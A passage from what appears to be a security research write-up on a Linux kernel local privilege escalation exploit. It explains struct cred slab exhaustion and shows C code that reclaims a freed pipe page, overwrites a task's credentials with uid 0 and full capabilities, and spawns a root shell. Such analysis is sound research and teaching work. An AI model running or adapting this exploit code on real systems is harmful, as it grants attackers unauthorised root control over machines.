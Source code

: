Before freeing the pipe page again, you might have already noticed the call to `alloc_n_creds(uring_creds_dump[0], 0x4000)`. We do this while the page is still in use to exhaust all the freelists (both cpu partial lists and per slab freelists) for the `struct cred` cache. This way, we can be quite certain that new `struct cred` allocations will immediately cause a new slab to be allocated from the page allocator directly.

The remaining part of the exploit is short and sweet:

```c 
static void *userfault_thread(void *arg)
{
    //[...]
    printf("pipe %ld, offset +0x%.4lx: cookie %.16lx\n", pipe_idx, cookie_idx * 96, cookie);

    /* Pre-allocate struct creds to reclaim the page. 
     * Free them immediately afterwards so we can reallocate them for tasks. */
    alloc_n_creds(uring_cred_dumps[1], 32);
    close(uring_cred_dumps[1]);

    /* wait for rcu to finish so creds are actually freed. */
    usleep(200000);

    struct pipe_pair child_comm;
    pipe(child_comm.__raw);

    /* realloc creds, now belong to child tasks */
    for (size_t i = 0; i < 32 * 2; i++) {
        
        if (fork())
            continue;
        
        sleep(2);
        uid_t uid = getuid();
        printf("uid: %d\n", uid);
        if (!uid) {
            char dummy[8];
            write(child_comm.write, &dummy, sizeof dummy);
            system("sh");
        }

        exit(0);
        
    }

    sleep(1);

    struct kernel_cred *cred = (void*)scratch;

    cred->usage = 1;
    cred->uid = cred->euid = cred->fsuid = 0;
    cred->gid = cred->egid = cred->fsgid = 0;
    cred->securebits = 0; /* SECUREBITS_DEFAULT */
    cred->cap_effective = cred->cap_permitted = cred->cap_inheritable = cred->cap_bset = 0x1fffffffful;
    cred->cap_ambient = 0;

    for (size_t i = 0; i < 96 / 8; i++)
        scratch[i] ^= cookie;

    ufd_unblock_page_copy((void *)blockers[1].arg.pagefault.address, scratch, &copied_size);

    struct pollfd poller[] = { {.events = POLLIN, .fd = child_comm.read}};

    if (poll(poller, 1, 3000) != 1)
        fatal("Could not overwrite struct cred. Try again..");
```
